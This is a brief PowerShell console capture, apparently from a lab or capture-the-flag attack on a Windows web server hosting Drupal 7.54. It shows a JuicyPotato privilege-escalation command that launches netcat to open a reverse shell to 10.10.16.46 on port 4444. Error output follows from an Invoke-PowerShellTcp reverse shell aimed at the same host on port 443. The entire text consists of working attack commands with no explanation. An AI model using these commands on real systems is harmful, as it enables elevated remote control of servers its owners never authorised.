PS C:\inetpub\drupal-7.54> JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal7.54\nc64.exe -e cmd.exe 10.10.16.46 4444" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
PS C:\inetpub\drupal-7.54> Invoke-PowerShellTcp : Bad numeric constant: 9.
At line:128 char:21
+ Invoke-PowerShellTcp <<<<  -Reverse -IPAddress 10.10.16.46 -Port 443
    + CategoryInfo          : NotSpecified: (:) [Write-Error], WriteErrorExcep 
   tion
    + FullyQualifiedErrorId : Microsoft.PowerShell.Commands.WriteErrorExceptio 
   n,Invoke-PowerShellTcp
```



